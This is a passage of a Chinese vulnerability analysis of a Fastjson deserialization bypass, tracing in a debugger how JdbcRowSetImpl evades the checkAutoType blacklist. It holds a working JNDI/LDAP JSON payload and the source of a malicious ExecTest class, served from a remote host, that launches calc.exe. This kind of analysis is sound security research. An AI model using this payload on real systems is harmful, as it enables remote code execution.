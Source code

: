 在该代码段中，程序通过contextClassLoader.loadClass(className);方法从字符串类型className变量("com.sun.rowset.JdbcRowSetImpl")获取到com.sun.rowset.JdbcRowSetImpl类对象，并赋值给clazz变量。此时的className、clazz变量形式如下图

![](https://gingsguard.oss-cn-beijing.aliyuncs.com/blog/f4935a82428a0c6642e7509665520283.png)

接着，程序判断cache变量情况：在当cache为true时，将className、clazz键值对加入mappings集合(cache默认为true)。

![](https://gingsguard.oss-cn-beijing.aliyuncs.com/blog/841cfa794636ad9294c1c64afe0c1522.png)

经过动态调试可以发现，通过上面的一系列操作，Mappings集合中确实已经加入了我们的恶意类com.sun.rowset.JdbcRowSetImpl，见下图

![](https://gingsguard.oss-cn-beijing.aliyuncs.com/blog/627c0a9c95e6249cd96f15fcfb201c8c.png)

在我们的第一个json字符串解析完成后，程序随后会解析我们第二个json字符串

### "b":{"\@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://localhost:1389/ExecTest","autoCommit":true}解析过程

与第一个json字符串解析流程完全一致，程序也执行到下图部分

![](https://gingsguard.oss-cn-beijing.aliyuncs.com/blog/24ef953b36ad28dd753484d28f2a5ffb.png)

由于这次Mapping中有键名为com.sun.rowset.JdbcRowSetImpl的元素，因此clazz被赋值为com.sun.rowset.JdbcRowSetImpl类对象

从下面两张图可见，此时上文的流程完全一致，只不过这次返回的时com.sun.rowset.JdbcRowSetImpl类对象

![](https://gingsguard.oss-cn-beijing.aliyuncs.com/blog/a680629fb9e9f50beaff134655281076.png)

![](https://gingsguard.oss-cn-beijing.aliyuncs.com/blog/5918f6f889685868b8888d34093a5b47.png)

com.sun.rowset.JdbcRowSetImpl恶意类被顺利返回，但是整个操作流程中并未触发checkAutoType黑白名单校验机制。随后com.sun.rowset.JdbcRowSetImpl恶意类被反序列化，触发漏洞利用

## 漏洞利用

为了证实漏洞的存在，我们首先在192.167.30.116服务器的80端口web服务上部署ExecTest.class。ExecTest.java中内容如下

```java
import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;
import java.io.IOException;
import java.util.Hashtable;

public class ExecTest implements ObjectFactory {

    @Override
    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) {
        exec("xterm");
        return null;
    }

    public static String exec(String cmd) {
        try {
            Runtime.getRuntime().exec("calc.exe");
        } catch (IOException e) {
            e.printStackTrace();
        }
        return "";
    }

    public static void main(String[] args) {
        exec("123");
    }
```